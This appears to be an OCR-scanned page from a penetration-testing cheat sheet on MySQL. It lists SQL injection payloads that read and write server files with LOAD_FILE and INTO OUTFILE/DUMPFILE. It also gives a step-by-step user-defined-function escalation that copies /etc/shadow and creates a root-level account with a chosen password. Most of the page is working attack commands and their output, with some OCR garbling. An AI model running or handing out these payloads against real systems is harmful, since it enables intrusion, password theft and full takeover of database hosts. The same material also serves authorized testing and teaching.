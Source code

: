 L#### oad file by injecting into the vulnerable field - encode string if necessary
```
…UNION ALL SELECT NULL,LOAD_FILE(‘<user-readable-file>’),NULL,NULL;-- …UNION ALL SELECT NULL,LOAD_FILE(‘<user-readable-file>’),NULL,NULL INTO OUTFILE ‘<writeable-path-or-web-directorygt;’;--
```

#### Dump/Write to file
```
(see encode text/shell to hex, base64)
...SELECT * FROM mytable INTO DUMPFILE ‘<writeable-path-or-web-directorygt;’; —
...SELECT * FROM mytable INTO OUTFILE ‘<writeable-path-or-web-directorygt;’; —
```

http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

http://ferruh.mavituna.com/sql-injection-cheatsheet-oku

#### MySQL <5.0 User Defined Functions
command execution and privilege escalation with mysql running as root/SYSTEM
```
mysql> use mysql;
mysql> create table <table-name>(line blob);
Query OK, 0 rows affected (0.00 sec)
mysql> insert into <table-name> values(load_file('<path-to-udf.so-file>');
Query OK, 1 rows affected (0.00 sec)
mysql> select * from <table-name> into dumpfile '/usr/lib/lib_mysqludf_sys.so';
Query OK, 1 rows affected (0.00 sec)
mysql> create function <name_of_new_function> returns int soname 'lib_mysqludf_sys.so';
```
Example command execution with the new function:
```
mysql> set @status := <name_of_new_function>('cat /etc/shadow > /tmp/shadow');
Query OK, 0 rows affected (0.06 sec)
mysql> set @status := <name_of_new_function>('/usr/sbin/useradd -o -u0 -g0 -d /dev/null -s /bin/bash &new-username>');
Query OK, 0 rows affected (0.06 sec)
mysql> set @status := <name_of_new_function>('echo <new-username>:<chosen-password> | /usr/sbin/chpasswd');
Query OK, 0 rows affected (0.06 sec)
```
or
```
mysql> select <name_of_new_function>('/usr/sbin/useradd -o -u0 -g0 -d /dev/null -s /bin/bash &new-username>');
+----------------------------------------------------------------------------------------------------------------------------------------------------------+
| <name_of_new_function>('/usr/sbin/useradd -o -u0 -g0 -d /dev/null -s /bin/bash &new-username>'); |+----------------------------------------------------------------------------------------------------------------------------------------------------------+
| 4294967296                                                                                                                                       | +----------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (1.70 sec)
```
```
http://0x80.org/blog/?p=298
http://blog.encription.co.uk/privilege-escalation-using-mysql-user-defined-functions/
http://www.0xdeadbeef.info/exploits/raptor_udf.c
http://bernardodamele.blogspot.com.au/2009/01/command-execution-with-mysql-udf.html
```
#### SQLMap commands
